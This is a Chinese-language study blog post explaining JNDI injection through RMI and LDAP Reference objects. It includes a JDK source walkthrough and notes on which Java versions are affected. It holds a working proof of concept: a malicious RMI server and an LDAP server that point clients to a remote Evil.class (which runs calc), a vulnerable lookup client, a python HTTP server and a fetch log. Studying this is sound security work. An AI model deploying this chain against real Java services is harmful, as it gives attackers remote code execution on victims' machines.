









# 前言

本来是在学习fastjson，发现用到了JNDI，所以先来学习一下JNDI。

# 原理

JNDI(Java Naming and Directory Interface,Java命名和目录接口)是[SUN公司](https://baike.baidu.com/item/SUN公司)提供的一种标准的Java命名系统接口，JNDI提供统一的[客户端](https://baike.baidu.com/item/客户端/101081)API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java[应用程序](https://baike.baidu.com/item/应用程序/5985445)可以和这些命名服务和[目录服务](https://baike.baidu.com/item/目录服务/10413830)之间进行交互。[目录服务](https://baike.baidu.com/item/目录服务/10413830)是命名服务的一种自然扩展。两者之间的关键差别是目录服务中[对象](https://baike.baidu.com/item/对象/17158)不但可以有名称还可以有属性（例如，用户有email地址），而命名服务中[对象](https://baike.baidu.com/item/对象/17158)没有属性。

JNDI支持多种命名和目录提供程序（Naming and Directory Providers），RMI注册表服务提供程序（RMI Registry Service Provider）允许通过JNDI应用接口对RMI中注册的远程对象进行访问操作。还有（LDAP）

所以又要提到RMI服务了。不过不会认真的讲，因为之前已经学过RMI了。

> RMI核心特点之一就是动态类加载，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，动态加载的对象class文件可以使用Web服务的方式进行托管。这可以动态的扩展远程应用的功能，RMI注册表上可以动态的加载绑定多个RMI应用。对于客户端而言，服务端返回值也可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些子类中被重写的方法，则同样需要有运行时动态加载额外类的能力。客户端使用了与RMI注册表相同的机制。RMI服务端将URL传递给客户端，客户端通过HTTP请求下载这些类。


因此相当于利用RMI去动态加载类。RMI服务那里绑定了一个对象，然后通过`JNDI` 去获取RMI对应的绑定的那个对象。

乍一看好像和`Naming.lookup`，这种纯RMI的操作方式没啥区别。但关键也就在于这里。之前学习RMI的时候提到的一个很关键的一个点就是，通过得到的RMI那里的对象，然后调用方法，实际上是在RMI服务那边执行的。

举个例子就是，如果RMI绑定的类的`exec`方法的作用是命令执行弹出计算器，那么得到RMI的那个对象后然后调用`exec`方法，不是本地弹计算器，还是远程的RMI服务器那里弹计算器。


既然命令执行的是恶意的RMI服务端，那是怎么实现漏洞攻击的呢？

> 在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象（当前名称目录系统之外的对象）。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引用，并且在目录中保存。当客户端在lookup()查找这个远程对象时，客户端会获取相应的object factory，最终通过factory类将reference转换为具体的对象实例。


当有客户端通过 `lookup("refObj")` 获取远程对象时，获得到一个 Reference 类的存根，由于获取的是一个 Reference 实例，客户端会首先去本地的 `CLASSPATH` 去寻找被标识为 `refClassName` 的类，如果本地未找到，则会去请求 `http://example.com:12345/refClassName.class` 动态加载 classes 并调用 `insClassName` 的构造函数。

其实不只是构造函数，简单点说是构造方法、静态代码块、getObjectInstance()方法等方法都可以，所以这些地方都可以写入恶意代码。而且这个调用是在客户端，而不是在服务端。这就实现了客户端的命令执行。


光看理论可能有些不理解，放个代码就理解了。


比如，我们本地的win10这里写一个`Client`：

```java
package com.feng.jndi;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.Name;
import java.rmi.Naming;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "rmi://121.5.169.223:39654/feng";
        Context context = new InitialContext();
        context.lookup(url);
    }
}

```

初始化一个JNDI接口，然后将RMI的url传给`lookup`。


然后在远程VPS上写一个`Server`（这里不在本地起了，直接起远程RMI，因为本地没坑，远程会遇到问题）：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception{
        System.setProperty("java.rmi.server.hostname","121.5.169.223");
        Registry registry = LocateRegistry.createRegistry(39654);
        Reference feng = new Reference("1","Evil","http://121.5.169.223:39777/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(feng);
        registry.bind("feng",referenceWrapper);
    }
}

```


第一行的`System.setProperty("java.rmi.server.hostname","121.5.169.223");`之前在RMI的文章里也提到了，是因为IP地址的问题，放一下别的师傅的答案：




所以需要改成外网IP。然后就是正常的RMI服务端了，构造出一个`Reference`对象：

```java
        Reference feng = new Reference("1","Evil","http://121.5.169.223:39777/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(feng);
```


```java
    public Reference(String className, String factory, String factoryLocation) {
        this(className);
        classFactory = factory;
        classFactoryLocation = factoryLocation;
    }
```

其实第一个`className`用处不大，第二个参数`factory`是用来指定类名的，第三个参数就是当CLASSPATH找不到指定的类的时候，去搜索的远程URL路径了。

比如我第二个参数是`Evil`，到时候就会去寻找`http://121.5.169.223:39777/Evil.class`。

所以再写一个`Evil.java`：

```java
public class Evil {
    public Evil() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

编译成`Evil.class`，然后启一个`python http`服务就可以了：

```shell
python3 -m http.server 39777
```


这里编译的Java版本和客户端的Java版本要适应，差太多的话会攻击失败。


然后启动`Server`和这个`http`，再启动`Client`就发现本地成功弹出了计算器：









# 源码分析调用


虽然懂了思路，知道是这样，但是还是有一点疑惑为啥是这样，打了断点跟一下，懂了为什么是这样。这里只是记录一下过程，建议自己打断点跟进。


```java
context.lookup(url); //打断点开始跟进
```


```java
    public Object lookup(String name) throws NamingException {
        //得到rmiURLContext，继续跟进lookup
        return getURLOrDefaultInitCtx(name).lookup(name);
    }
```


```java
    public Object lookup(String var1) throws NamingException {
        ResolveResult var2 = this.getRootURLContext(var1, this.myEnv);//获取RMI注册中心的相关数据
        Context var3 = (Context)var2.getResolvedObj();

        Object var4;
        try {
            var4 = var3.lookup(var2.getRemainingName());
```

这里的`var2`是这样的，基本就是得到主机，端口，还有绑定的对象的名字：




再跟进`var3.lookup`：

```java
    public Object lookup(Name var1) throws NamingException {
        if (var1.isEmpty()) {
            return new RegistryContext(this);
        } else {
            Remote var2;
            try {
                var2 = this.registry.lookup(var1.get(0));
            } catch (NotBoundException var4) {
                throw new NameNotFoundException(var1.get(0));
            } catch (RemoteException var5) {
                throw (NamingException)wrapRemoteException(var5).fillInStackTrace();
            }

            return this.decodeObject(var2, var1.getPrefix(1));
        }
    }
```


这里通过`registry.look`拿到了RMI绑定的对象：



然后进入到`decodeObject()`：

```java
    private Object decodeObject(Remote var1, Name var2) throws NamingException {
        try {
            Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
            return NamingManager.getObjectInstance(var3, var2, this, this.environment);
```

我们的远程对象是`ReferenceWrapper`类的对象，它`implements RemoteReference`了，所以会调用`getReference()`，获取`Reference`对象，也就是我们在`Server`构造的对象：

```java
Reference feng = new Reference("1","Evil","http://121.5.169.223:39777/");
```


进入`NamingManager.getObjectInstance`：

```java
    public static Object
        getObjectInstance(Object refInfo, Name name, Context nameCtx,
                          Hashtable<?,?> environment)
        throws Exception
    {

        ObjectFactory factory;

        // Use builder if installed
        ObjectFactoryBuilder builder = getObjectFactoryBuilder();
        if (builder != null) {
            // builder must return non-null factory
            factory = builder.createObjectFactory(refInfo, environment);
            return factory.getObjectInstance(refInfo, name, nameCtx,
                environment);
        }

        // Use reference if possible
        Reference ref = null;
        if (refInfo instanceof Reference) {
            ref = (Reference) refInfo;
        } else if (refInfo instanceof Referenceable) {
            ref = ((Referenceable)(refInfo)).getReference();
        }

        Object answer;

        if (ref != null) {
            String f = ref.getFactoryClassName();
            if (f != null) {
                // if reference identifies a factory, use exclusively

                factory = getObjectFactoryFromReference(ref, f);
                if (factory != null) {
                    return factory.getObjectInstance(ref, name, nameCtx,
                                                     environment);
                }
```


`builder`为`null`所以进入不了第一个if。然后就是最关键的这两行代码了：

```java
                factory = getObjectFactoryFromReference(ref, f);
                if (factory != null) {
                    return factory.getObjectInstance(ref, name, nameCtx,
                                                     environment);
                }
```

在`getObjectFactoryFromReference`中：

```java
    static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // Try to use current class loader
        try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // Not in class path; try to use codebase
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
```

先直接加载类`clas = helper.loadClass(factoryName);`，这里是正常的本地类加载，因为找不到`Evil`类所以会加载失败。代码往下执行

在`codebase = ref.getFactoryClassLocation()`中出现了`codebase`，P神讲RMI的时候提到过，之后也要说这个。`FactoryClassLocation`也就是我们的URL了：`http://121.5.169.223:39777/`，所以`codebase`也就是所谓的远程URL。然后在这个URL的基础上去找文件：

```java
clas = helper.loadClass(factoryName, codebase);
```

跟进一下就会知道，因为指定了`codebase`，这次用的类加载器将是`URLClassLoader`，最后在这里加载：

```java
        Class<?> cls = Class.forName(className, true, cl);
        return cls;
```

调用`Class.forName`并制定了类加载来加载类，这样可以加载到`http://121.5.169.223:39777/Evil.class`。再联想一下之前的知识，`Class.forName`加载类且第二个参数是true（默认也是true）会进行类的加载，也就是静态代码块。因此这时候静态代码块的代码可以执行。

成功加载到了`clas`后，再`return (clas != null) ? (ObjectFactory) clas.newInstance() : null;`，调用它的`newInstance()`，从而调用了无参构造器，执行了无参构造器里面的代码，这也是为什么我们把恶意代码写道无参构造器里面的原因。


如果得到了对象且成功转换成了`ObjectFactory`，就会调用`getObjectInstance`方法，这也是为什么可以把代码写到`getObjectInstance`方法的原因。


```java
                    return factory.getObjectInstance(ref, name, nameCtx,
                                                     environment);
```


不过这个有限制，就是我们的恶意类可以转换成`ObjectFactory`，才可以继续执行不抛出异常。所以如果要利用这个方法的话，恶意类需要继承`ObjectFactory`才行。

至此跟踪完毕，知道了为什么可以调用静态代码块，无参构造器还有`getObjectInstance`里面的代码。


# 使用RMI的限制

在P神写的《Java安全漫谈》的RMI那里也提到了：



此外，还有一个`trustURLCodebase`属性：



导致了JNDI注入利用RMI的话，版本受到了极大的限制。


# JNDI+LDAP注入

因为RMI会受到限制，所以就有了JNDI+LDAP的注入方式。


> 除了RMI服务之外，JNDI还可以对接LDAP服务，且LDAP也能返回JNDI Reference对象，利用过程与上面RMI Reference基本一致，只是lookup()中的URL为一个LDAP地址如`ldap://xxx/xxx`，由攻击者控制的LDAP服务端返回一个恶意的JNDI Reference对象。
>
> 注意一点就是，LDAP+Reference的技巧远程加载Factory类不受RMI+Reference中的com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase等属性的限制，所以适用范围更广。


所以其实二者区别不大。来尝试攻击。


首先需要`unboundid-ldapsdk`的依赖：

```xml
        <dependency>
            <groupId>com.unboundid</groupId>
            <artifactId>unboundid-ldapsdk</artifactId>
            <version>6.0.0</version>
        </dependency>
```


然后写个`LdapServer`（复制粘贴然后改一下url和port就可以了）：

```java
package com.feng.jndi;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class LdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:39777/#Evil";
        int port = 39654;


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}

```

客户端就是把rmi改成ldap即可：

```java
package com.feng.jndi;

import javax.naming.Context;
import javax.naming.InitialContext;

public class LdapClient {
    public static void main(String[] args) throws Exception {
        String url = "ldap://127.0.0.1:39654/feng";
        Context context = new InitialContext();
        context.lookup(url);
    }
}

```


```shell
python -m http.server 39777
Serving HTTP on 0.0.0.0 port 39777 (http://0.0.0.0:39777/) ...
127.0.0.1 - - [01/Sep/2021 20:38:03] "GET /Evil.class HTTP/1.1" 200 -
```




# LDAP的限制

在JDK 8u191、7u201、6u211之后，com.sun.jndi.ldap.object.trustURLCodebase属性的默认值被设置为false，对LDAP Reference远程工厂类的加载增加了限制。

所以，当JDK版本介于8u191、7u201、6u211与6u141、7u131、8u121之间时，我们就可以利用LDAP+Reference的技巧来进行JNDI注入的利用。

8u191之后有师傅提出了绕过，这个以后再谈了。

# 参考链接

https://rickgray.me/2016/08/19/jndi-injection-from-theory-to-apply-blackhat-review/

https://kingx.me/Exploit-Java-Deserialization-with-RMI.html

https://xz.aliyun.com/t/6633

https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/